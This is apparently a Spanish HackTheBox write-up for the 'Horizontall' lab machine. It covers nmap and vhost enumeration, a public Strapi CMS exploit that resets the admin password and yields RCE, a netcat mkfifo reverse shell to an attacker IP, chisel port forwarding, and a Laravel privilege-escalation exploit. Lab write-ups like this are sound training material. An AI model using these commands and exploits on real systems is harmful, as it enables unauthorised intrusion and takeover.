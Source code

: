 ```yaml
---
layout      : post
title       : "Horizontall - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Horizontall-HackTheBox/Horizontall.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


🚀👨‍🚀En esta máquina Linux de nivel easy obtendré acceso al sistema a través de una vulnerabilidad RCE en Strapi CMS y escalaré privilegios aprovechando una vulnerabilidad explotada a través de Laravel usando chisel🚀👨‍🚀.

🎥Canal Writeups Youtube🎬 --> [https://www.youtube.com/channel/UCllewdxU0OQudNp9-1IVJYQ](https://www.youtube.com/channel/UCllewdxU0OQudNp9-1IVJYQ)


[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

***


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Enumeración Web](#enum-web).
3. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc).


***

Ya es hora de estar hack asique al liooo a romper la máquina Horizontall!!!!!

![](/assets/images/HTB/Horizontall-HackTheBox/hack.gif)


# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como de costumbre comienzo lanzando la herramienta whichsystem.py para identificar el sistema operativo de la máquina a la que me voy a enfrentar.

Esta herramienta se basa en el TTL (Time To Live).

```bash
# Windows --> TTL 128
---------------------
# Linux --> TTL 64
```

```bash
❯ whichSystem.py 10.10.11.105

	10.10.11.105 (ttl -> 63): Linux
```

Una vez ya se que me enfrento a una máquina Linux procedo al escaneo de puertos convenvencional con la herramienta nmap.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Existen solo dos puertos abiertos, el puerto 80 (http) y el puerto 22 ssh.

Pero necesito más información acerca de estos puertos por lo que debo realizar un escaneo un poco más detallado...

```bash
# Escaneo para detectar versiones del servicio que corre en cada puerto
nmap -p80,22 -n -Pn -sCV 10.10.11.105 -oN versiones
-----------------------------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A continuación dejo en una tabla la información relevante que he extraido del escaneo nmap.

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 |
| 80     | HTTP     | nginx 1.14.0 |

> Dominio horizontall.htb 

Añado el dominio encontrado al archivo /etc/hosts.

# Enumeración Web [#](enumeración) {#enumeración}

Una vez añadido lo siguiente es proceder con la enumeración web, ya que existe el puerto 80 abierto.

Accedo al dominio desde el navegador para ojear un poco la web.

![](/assets/images/HTB/Horizontall-HackTheBox/web1.webp)

Tras investigar un poco no encuentro nada relevante, por lo que decido fuzzear rutas en el servidor, en este caso usaré gobuster.

![](/assets/images/HTB/Horizontall-HackTheBox/gobuster.webp)

Tras fuzzear no encuentro nada interesante por lo que solo se me ocurre fuzzear para encontrar algún vhost, y en esta ocasión lo haré con la herramienta wfuzz.

Pero tampoco encuentro ningún vhost, por lo que vuelvo al navegador y procedo a mirar el código fuente de la web, descubriendo que hay varios archivos .js.

Tras buscar durante un rato encuentro un vhost dentro de uno de los archivos .js

Dentro de la ruta: `http://horizontall.htb/js/app.c68eb462.js`

> api-prod.horizontall.htb

Añado el vhost al archivo /etc/hosts y abro el navegador de nuevo para ver que encuentro.

![](/assets/images/HTB/Horizontall-HackTheBox/web2.webp)

No hay nada más por lo que fuzzeo de nuevo para descubrir rutas en el servidor.

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000000128:   200        0 L      21 W       507 Ch      "reviews"                                                                                                                  
000000250:   200        16 L     101 W      854 Ch                   "admin"                                                                                                                    
000001600:   200        0 L      21 W       507 Ch      "Reviews" 
```

Accedo a la ruta admin que seguramente será un login y podría obtener algo de información sobre la web.

![](/assets/images/HTB/Horizontall-HackTheBox/login.webp)


# Explotación [#](explotación) {#explotación}

Puedo ver que estoy ante un cms llamado strapi, por lo que lo primero que haré será buscar alguna vulnerabilidad.

![](/assets/images/HTB/Horizontall-HackTheBox/searchsploit.webp)

Encuentro dos exploits, y no necesito estar autenticado, por lo que uso uno de ellos, en concreto el que esta porgramado en python.

Este exploit lo que hace es cambiar las credenciales de acceso y me otorgaría acceso al panel de strapi, además de la posbilidad de ejecutar comandos, es decir RCE.

Una vez lo tengo lo ejecuto:

```bash
❯ python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjcwODg1MjAzLCJleHAiOjE2NzM0NzcyMDN9.TzMLnnxxwD-dM_EsAHrqjxnC3m-GiBDKf1tRGtc-XsM
```

Aprovechando el RCE que me otorga el exploit, introduzco una reverse shell netcat.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 443 >/tmp/f
```

```bash
$>  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 443 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

Y porfin consigo acceso al sistema.

![](/assets/images/HTB/Horizontall-HackTheBox/shell.webp)

A continuación actulizo la tty para tener una shell más interactiva y funcional.


# Escalada de Privilegios [#](Escalada) {#priv-esc}


Lanzo linpeas.sh para encontrar una vía potencial de escalada de privilegios.

![](/assets/images/HTB/Horizontall-HackTheBox/linpeas.webp)

Tras lanzarlo encuentro que el puerto 8000 se encuentra abierto en el sistema, por lo que hago un curl a la ip y al puerto para ver que encuentro.

![](/assets/images/HTB/Horizontall-HackTheBox/laravel.webp)

Descubro que en el puerto 8000 corre Laravel v8 (PHP v7.4.18), por lo que busco si existe alguna vulnerabilidad para escalar privilegios.

Buscando información encuentro el siguiente exploit.

Por lo que lo descargo y lo ejecuto.

![](/assets/images/HTB/Horizontall-HackTheBox/exploit.webp)

Pero me arroja un error al lanzarlo, por lo que decido usar chisel para poder traerme el puerto de la máquina víctima a la mía.

Por lo que primero descargo chisel en mi máquina y luego lo paso a la máquina víctima ya que será necesario ejecutarlo en las dos máquinas.

```bash
# En la máquina atacante
------------------------
./chisel server --reverse -p 1234
```

```bash
# En la máquina víctima
-----------------------
./chisel client http://10.10.14.12:1234 R:8001:127.0.0.1:8000
```

Una vez ejecutamos los dos comandos ya podremos acceder desde nuestra máquina atacante al puerto 8000 donde se encuentra laravel.

![](/assets/images/HTB/Horizontall-HackTheBox/laravel2.webp)

Ahora ya puedo ejecutar el exploit desde mi máquina atacante.

![](/assets/images/HTB/Horizontall-HackTheBox/root.webp)

![](/assets/images/HTB/Horizontall-HackTheBox/pwned.webp)



